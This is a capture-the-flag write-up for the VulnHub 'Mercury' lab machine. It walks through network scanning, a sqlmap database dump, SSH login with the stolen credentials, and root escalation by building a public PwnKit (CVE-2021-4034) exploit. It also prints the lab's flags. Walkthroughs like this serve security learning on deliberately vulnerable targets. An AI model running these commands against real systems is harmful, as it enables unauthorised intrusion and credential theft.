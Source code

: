 
# 🌌 The Planets: Mercury – VulnHub Write-up

**Difficulty:** Easy  
**Objective:** Gain root access and retrieve two flags: `user_flag.txt` and `root_flag.txt`

---

## 1. 🔍 Finding the IP Address

To begin, network discovery was conducted using Netdiscover to identify the IP address of the Mercury machine:

```bash
netdiscover -r 192.168.56.0/24
```

**Discovered IP:** `192.168.56.105`

---

## 2. 🚪 Port Scanning

A full port scan was performed using Nmap to identify open services:

```bash
nmap -sV 192.168.56.105
```

The web service on port 8080 appeared under development, but offered a starting point for enumeration.

---

## 3. 🌐 Web Enumeration and SQL Injection

Accessing the web service on port 8080 revealed a message indicating the site was under construction. An error page hinted at an interesting folder: `/mercuryfacts/`, which appeared to query a SQL database.

Use sqlmap to extract database contents:

```bash
sqlmap http://192.168.56.105:8080/mercuryfacts/ -D mercury --dump-all --batch
```

---

## 4. 🔐 SSH Access

With credentials extracted from the database, log into SSH:

```bash
ssh webmaster@192.168.56.105
```

Once logged in as the 'webmaster' user, retrieve the first flag:

**User flag:** `user_flag_8339915c9a454657bd60ee58776f4ccd`

---

## 5. 📈 Privilege Escalation

Run LinPEAS to enumerate potential privilege escalation vectors:

```bash
./linpeas.sh
```

The system was found vulnerable to **CVE-2021-4034 (PwnKit)**. Exploit this vulnerability using the public GitHub exploit:

```bash
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
./cve-2021-4034
```

---

## 6. 🏁 Root Access

After successful exploitation, read the root flag:

```bash
cat /root/root_flag.txt
```

**Root flag:** `root_flag_69426d9fda579afbffd9c2d47ca31d90`

---
